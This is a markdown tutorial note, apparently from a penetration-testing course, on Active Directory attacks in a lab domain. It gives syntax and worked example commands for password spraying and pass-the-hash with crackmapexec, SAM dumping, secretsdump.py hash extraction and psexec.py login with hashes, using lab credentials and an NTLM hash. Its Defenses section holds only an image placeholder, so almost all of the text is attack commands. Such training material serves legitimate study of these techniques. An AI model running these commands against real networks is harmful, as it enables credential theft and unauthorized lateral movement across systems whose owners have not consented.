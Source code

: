 ### Pass the Password Attacks
For instance if you compromise a host in a network and somehow manage to crack the hash and get the password of the user. You can now perform pass the password attack where you will be spraying the compromised user's password all over the network and see if someone is using the same credentials and can compromise the domain

For passing the hash we can use a tool called `crackmapexec` which can be installed using the following command
```bash
apt install crackmapexec
```

Now using this we can spray password to the network. Use the following command
```bash
# Syntax for spraying password
crackmapexec <protocol> <Network Range> -u <username> -d <domain> -p <password>

# Example
crackmapexec smb 192.168.247.0/24 -u fcastle -d MARVEL.local -p Password1
```
![[Pasted image 20210726092129.png]]

You can also dump sam hashes with crackmapexec
```bash
```bash
# Syntax for spraying password
crackmapexec <protocol> <Network Range> -u <username> -d <domain> -p <password> --sam

#Example
crackmapexec smb 192.168.247.0/24 -u fcastle -d MARVEL.local -p Password1 --sam
```
![[Pasted image 20210726092703.png]]

### Dumping Hashes with secretsdump.py
Once we know the password and username of a machine we can dump all hashes using secretsdump.py.

For doing so type the following command
```bash
#Syntax for dumping hashes
secretsdump.py <domain>/<username>:<password>@<IP address>

#Example
secretsdump.py marvel/fcastle:Password1@192.168.247.130
```

![[Pasted image 20210726093643.png]]

After dumping you can try to crack these hashes with hashcat

### Pass the Hash Attacks
Pass the Hash attack is another powerfull attack where an attacker can utilise the hashes without cracking it and spray in the network and see who is utilizing the same hashes

**Note**: Only NTLM hashes can be used for spraying hashes. NTLMv2 will not work in pass the hash attacks

We will be using `crackmapexec` for this. Type the following command
```bash
#Syntax for passing the hash
crackmapexec <protocol> <Network Range> -u <username> -H <Hash> --local-auth

#Example
crackmapexec smb 192.168.247.0/24 -u "Frank Castle" -H a4f49c406510bdcab6824ee7c30fd852 --local-auth
```

Here `--local-auth` is used because we are targeting local administrators or users

![[Pasted image 20210726095348.png]]

We can also use `psexec.py` to login with the hashes
```bash
#Syntax for logging in with hashes
psexec.py "<username>":@<IP Address> -hashes <LM>:<NT>

#Example
psexec.py "Frank Castle":@192.168.247.130 -hashes aad3b435b51404eeaad3b435b51404ee:a4f49c406510bdcab6824ee7c30fd852
```
![[Pasted image 20210726095717.png]]

### Defenses
![[Pasted image 20210726100026.png]]